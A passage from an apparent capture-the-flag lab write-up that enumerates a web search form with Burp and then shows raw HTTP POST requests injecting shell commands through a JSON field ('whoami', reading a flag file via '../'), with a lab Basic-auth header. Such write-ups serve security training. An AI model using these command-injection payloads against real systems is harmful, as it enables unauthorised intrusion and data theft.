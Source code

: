 ![writeup.enumeration.steps.5.1](Box%20Write-ups/thm.yotf/screenshot01.png)  

6\. Upon logging in, we see a webpage with a search text box try out a few queries. Submitting an empty string shows a listing of 3 files. We setup Burp proxy and start enumerating the search functionality further:  

![writeup.enumeration.steps.6.1](Box%20Write-ups/thm.yotf/screenshot02.png)  

![writeup.enumeration.steps.6.2](Box%20Write-ups/thm.yotf/screenshot03.png)  

![writeup.enumeration.steps.6.3](Box%20Write-ups/thm.yotf/screenshot04.png)  

![writeup.enumeration.steps.6.4](Box%20Write-ups/thm.yotf/screenshot05.png)  

7\. We find a way to escape the search input and get command execution on the target machine:  
``` {.python .numberLines}
POST /assets/php/search.php HTTP/1.1
  Host: 10.10.41.240
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://10.10.41.240/
  Content-Type: text/plain;charset=UTF-8
  Content-Length: 101
  Authorization: Basic cmFzY2FsOmxvdmU=
  Connection: close

  {"target":"\";whoami\n"}

```

![writeup.enumeration.steps.7.1](Box%20Write-ups/thm.yotf/screenshot06.png)  

8\. We use this to triage the file system and find the first web flag file:  
``` {.python .numberLines}
POST /assets/php/search.php HTTP/1.1
  Host: 10.10.41.240
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://10.10.41.240/
  Content-Type: text/plain;charset=UTF-8
  Content-Length: 101
  Authorization: Basic cmFzY2FsOmxvdmU=
  Connection: close

  {"target":"\"cat ../../../web-flag.txt;\n"}

```

